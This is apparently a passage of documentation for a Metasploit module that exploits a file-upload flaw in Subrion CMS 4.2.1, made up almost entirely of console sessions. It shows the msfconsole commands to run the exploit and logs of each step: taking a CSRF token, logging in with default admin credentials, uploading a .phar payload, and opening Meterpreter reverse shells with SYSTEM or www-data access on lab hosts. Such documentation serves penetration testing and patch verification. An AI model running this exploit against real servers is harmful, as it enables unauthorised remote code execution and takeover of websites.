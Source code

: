 ```
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: xjUlGn2ZDOBA2ZhobPAmuC17wZXpVxyjVsLBqF54
[*] Logging in to Subrion Admin Panel at: http://192.168.29.1/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.29.1/uploads/wvkjygteyz.phar
[*] Executing 'wvkjygteyz.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:51466) at 2023-07-30 03:24:33 -0400
[+] Successfully executed payload: http://192.168.29.1/uploads/wvkjygteyz.phar

meterpreter > getuid
Server username: SYSTEM
meterpreter > sysinfo
Computer    : DESKTOP-50BU5J8
OS          : Windows NT DESKTOP-50BU5J8 10.0 build 19045 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > 
```

### Subrion CMS v4.2.1 with LAMP Stack on Debian 10

* Using PHP paylod - default TARGET 0

```
msf6 > use exploit/multi/http/subrion_cms_file_upload_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.245.133
RHOSTS => 192.168.245.133
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => 192.168.245.128
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.133:80/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[!] This version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[+] The target appears to be vulnerable.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: mKMUcUoMJjRxTxOog8DXxeFxLGQVU7rHSX6slM85
[*] Logging in to Subrion Admin Panel at: http://192.168.245.133/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.245.133/uploads/htwgmjllep.phar
[*] Executing 'htwgmjllep.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.133
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.133:53698) at 2023-07-21 14:21:17 -0400
[+] Successfully executed payload: http://192.168.245.133/uploads/htwgmjllep.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : debian
```